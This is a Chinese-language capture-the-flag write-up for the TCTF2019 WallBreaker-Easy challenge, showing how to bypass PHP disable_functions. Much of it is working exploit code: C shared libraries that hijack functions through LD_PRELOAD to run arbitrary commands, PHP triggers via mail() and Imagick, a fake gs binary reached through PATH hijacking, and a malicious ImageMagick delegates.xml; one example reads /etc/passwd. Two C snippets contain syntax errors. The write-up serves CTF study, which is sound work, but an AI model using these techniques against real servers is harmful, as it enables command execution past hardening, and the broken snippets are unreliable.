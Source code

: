 # Wallbreaker\_Easy

## Wallbreaker\_Easy

## 考点

* PHP bypass disable\_functions

## wp

TCTF2019 WallBreaker-Easy

提示

> Imagick is a awesome library for hackers to break `disable_functions`.&#x20;
>
> So I installed php-imagick in the server, opened a `backdoor` for you.
>
> Let's try to execute `/readflag` to get the flag.&#x20;
>
> Open basedir: /var/www/html:/tmp/ebe1d01ac021c4a3e68eb5bbdc842e69
>
> Hint: eval($\_POST\["backdoor"]);

给了shell，要命令执行，但是有disable\_functions。这题就是bypass disable\_functions

![](<../.gitbook/assets/image (7).png>)

### 利用LD\_PRELOAD变量

> LD\_PRELOAD 是一个可选的 Unix 环境变量，包含一个或多个共享库或共享库的路径，加载程序将在包含 C 运行时库（libc.so）的任何其他共享库之前加载该路径。这称为预加载库。
>
> 也就是说它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。即我们可以自己生成一个动态链接库加载，以覆盖正常的函数库，也可以注入恶意程序，执行恶意命令。

该方法绕过disable\_functions的原理就是劫持系统函数，使程序加载恶意动态链接库文件，从而执行系统命令。

通用动态链接库代码

```c
#include <stdlib.h>
__attribute__((constructor)) void hack(){
    unsetenv("LD_PRELOAD");
    if (getenv("cmd") != NULL){
        system(getenv("cmd"));
    }else{
        system("echo 'no cmd' > /tmp/cmd.output");
    }
}
```

> 利用 GNU C 中的特殊语法 `__attribute__ ((attribute-list))`，当参数为 constructor 时就可以在加载共享库时运行，通常是在程序启动过程中，因为带有”构造函数”属性的函数将在 main() 函数之前被执行，类似的，若是换成 destructor 参数，则该函数会在 main() 函数执行之后或者 exit() 被调用后被自动执行
>
> 在 PHP 运行过程中只要有新程序启动，在我们加载恶意动态链接库的条件下，便可以执行 .so 中的恶意代码

使用`strace -f php -r "mail('','','','');" 2>&1 | grep -E "execve|fork|vfork"`可以看到当 PHP 执行`mail()`函数的时候有没有执行程序或者启动新进程



使用`gcc --share -fPIC bad.c -o bad.so`生成动态链接库，上传到目标机器

再使用如下语句就可以执行任意命令，除了`mail()`函数，还可以使用`error_log('',1)` 或者 `mb_send_mail('','','')` 和 `imap_mail("1@a.com","0","1","2","3")`

```php
<?php
putenv("cmd=cat /etc/passwd");
putenv("LD_PRELOAD=./bad.so");
mail('','','','');
```

运行该 PHP 文件即可成功执行命令，就算没有安装 sendmail 也能成功利用

> 一个程序的动态链接库并不是所谓被系统加载的，而是被执行的二进制文件去寻找自己所需要的动态链接库，即便这个库是`LD_PRELOAD` 所设置的，也需要在一个新进程启动之后，由这个进程将库加载进自己的运行环境(甚至如果没有新进程，`LD_PRELOAD` 变量都不会被加载)。

如果没有sendmail那是谁加载了动态链接库。除了 `/usr/bin/php` 之外的第一个进程，其实是`/bin/sh`，而并非`/usr/sbin/sendmail`，也就是说在这一步，真正加载了动态链接库的其实是`/bin/sh` 的进程，其实我们大可不必使用`__attribute__((constructor))` ，直接劫持`/bin/sh` 的库函数即可。要想加载动态链接库，就必须启动一个新进程，只要存在新进程，就能劫持库函数。当然这并不是说`__attribute__((constructor))` 没有意义，毕竟他可以帮我们省略挑选库函数的过程。

劫持`/bin/sh` 的库函数

```c
#include <stdlib.h>
#include <string.h>
void payload() {
    const char* cmd = getenv('CMD')
    system(cmd);
}
int getuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

但是这题使用上面的方法是不行的，因为BUU的环境有权限限制，无法上传文件。

### ImageMagick bypass disable\_functions

ImageMagick在处理一些类型的文件的时候需要依赖其他软件，例如`Ghostscript`，但是默认禁止了使用`Ghostscript`处理pdf，ps，epi和xps的文件类型，`Ghostscript`能处理的如下

```
EPI  EPS  EPS2 EPS3 EPSF EPSI EPT PDF PS PS2 PS3
```

只有ept能使用，先`convert 1.png ept:1.ept` 生成一个 `EPT` 文件，再使用`strace -f php index.php 2>&1 | grep -C2 execve`看一下有没有生成新进程，可以看到执行了gs且生成了新程序



执行`readelf -Ws /usr/bin/gs`看一下这个程序都有哪些符号

从符号中可以看出他调用的库函数，我们选择 `fflush` 这个函数来进行劫持

```c
#include <stdlib.h>
#include <string.h>
void payload() {
    const char* cmd = getenv('CMD')
    system(cmd);
}
int fflush() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

然后使用gcc生成动态链接库，然后把生成的ept文件和bad.so上传到服务器上

```php
putenv('LD_PRELOAD=/tmp/3accb9900a8be5421641fb31e6861f33/hack.so'); 
putenv('CMD=/readflag > /tmp/3accb9900a8be5421641fb31e6861f33/flag.txt');
$img = new Imagick('/tmp/3accb9900a8be5421641fb31e6861f33/1.ept');
```

再访问flag.txt即可。

### 利用PATH 变量 <a href="#toc-12" id="toc-12"></a>

Linux中执行一个命令实际上是执行了有一个可执行文件，系统通过PATH环境变量找到命令对应的可执行文件，执行命令时，系统去PATH变量记录的路径下寻找对应的可执行文件

如果通过`putenv` 覆盖PATH变量为可以控制的路径，再将恶意文件上传，命名成对应的命令的名字，程序在执行这个命令的时候，就会执行我们的恶意文件。而 `ImageMagick` 正是通过执行命令的形式启动外部程序的。

```c
#include <stdlib.h>
#include <string.h>
int main() {
    unsetenv("PATH");
    const char* cmd = getenv("CMD");
    system(cmd);
    return 0;
}
```

将上述内容编译后命名为 `gs`，将 `gs` 和 `EPT`文件写入到服务器，然后执行：

```php
putenv('PATH=/tmp/3accb9900a8be5421641fb31e6861f33');
putenv('CMD=/readflag > /tmp/3accb9900a8be5421641fb31e6861f33/flag.txt');
chmod('/tmp/3accb9900a8be5421641fb31e6861f33/gs','0777');
$img = new Imagick('/tmp/3accb9900a8be5421641fb31e6861f33/1.ept');
```

### 利用ImageMagick的配置文件

`ImageMagick`的配置文件位置与环境变量有关，那么结合`putenv` 就可以控制`ImageMagick`的配置。

在`delegates.xml`这个文件内，定义了`ImageMagick`处理各种文件类型的规则

```xml
<delegatemap>
    ......
  <delegate decode="bpg" command="&quot;bpgdec&quot; -b 16 -o &quot;%o.png&quot; &quot;%i&quot;; /bin/mv &quot;%o.png&quot; &quot;%o&quot;"/>
</delegatemap>
```

处理文件所需执行的系统命令均在这个文件中设置，那么我们就可以自定义这个文件来执行命令了。

`EPT` 文件对应的文件格式为：`ps:alpha`，所需要的`delegates.xml`内容就是

```xml
<delegatemap>
  <delegate decode="ps:alpha" command="sh -c &quot;/readflag > /tmp/3accb9900a8be5421641fb31e6861f33/flag.txt&quot;"/>
</delegatemap>
```

将 `delegates.xml` 和 `EPT` 文件写入后，使用题目中的后门执行如下命令即可：

```php
putenv('MAGICK_CONFIGURE_PATH=/tmp/3accb9900a8be5421641fb31e6861f33');
$img = new Imagick('/tmp/3accb9900a8be5421641fb31e6861f33/1.ept');
```

## 小结

1. [TCTF2019 WallBreaker-Easy 解题分析](https://xz.aliyun.com/t/4688)
2. [无需sendmail：巧用LD\_PRELOAD突破disable\_functions](https://www.freebuf.com/articles/web/192052.html)
3. 在BUU的环境直接使用蚁剑的插件可以快速获取flag，但没必要
4. PHP7 GC with Certain Destructors UAF，PHP7 Backtrace UAF，PHP 7.0-8.0 disable\_functions bypass \[user\_filter]都可以bypass
